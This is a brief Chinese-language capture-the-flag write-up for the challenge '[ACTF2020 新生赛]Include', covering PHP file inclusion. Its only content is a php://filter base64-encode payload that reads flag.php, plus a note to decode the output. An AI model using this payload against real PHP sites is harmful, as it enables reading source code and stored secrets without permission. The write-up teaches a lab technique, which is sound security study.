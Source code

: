## [ACTF2020 新生赛]Include

## 知识点

`文件包含`

## 解题

`payload`

```url
?file=php://filter/convert.base64-encode/resource=flag.php
```

`base64`解码即可